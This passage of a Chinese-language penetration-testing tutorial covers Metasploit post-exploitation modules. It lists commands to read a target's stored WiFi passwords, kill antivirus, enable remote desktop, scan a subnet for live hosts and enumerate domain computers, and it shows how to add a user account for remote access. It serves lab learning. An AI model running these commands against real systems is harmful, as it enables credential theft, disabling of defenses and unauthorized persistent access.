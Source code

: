 | run post/windows/wlan/wlan_profile                       | 用于读取目标主机WiFi密码       |
| run post/windows/manage/killav                           | 闭杀毒软件                     |
| run post/windows/manage/enable_rdp                       | 开启远程桌面（需要权限）       |
| run post/windows/gather/arp_scanner RHOSTS=10.10.10.0/24 | 扫描整个段存活主机             |
| run post/windows/gather/enum_computers                   | 枚举域内的主机                 |

### 4.1.1.**扫描存活主机**

```
命令：run post/windows/gather/arp_scanner RHOSTS=192.168.10.0/24
```

![img](assets/wps27-1690339780493-27.jpg) 

### 4.1.2.**远程桌面**

#### 4.1.2.1.**开启远程桌面**

效果就不再展示了，由于展示了也是截图，无法直观看到具体的变化，可以自行进行测试。

```
命令：run post/windows/manage/enable_rdp
```

![img](assets/wps28-1690339780493-29.jpg) 

#### 4.1.2.2.**添加用户**

这里的添加用户是在开启远程桌面的时候，不知道靶机的密码的时候，可以添加一个用户用于访问。

```
命令：run post/windows/manage/enable_rdp USERNAME=test PASSWORD=123qweASD
```

![img](assets/wps29-1690339780493-30.jpg) 
